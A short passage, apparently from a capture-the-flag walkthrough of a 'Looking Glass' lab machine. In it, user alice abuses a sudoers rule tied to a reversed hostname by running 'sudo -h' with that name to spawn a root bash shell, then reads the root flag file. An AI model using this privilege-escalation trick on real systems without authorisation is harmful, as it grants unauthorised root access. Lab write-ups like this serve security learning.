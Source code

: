 ```
                 also be used in conjunction with the -l option to list a user's privileges for the remote host.

```
> lets try to do it : 
```
alice@looking-glass:/etc/sudoers.d$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/etc/sudoers.d# 
```
> Finally , We got the :
```
root@looking-glass:/etc/sudoers.d# cat /root/root.txt 
}hidden{mht

``` 











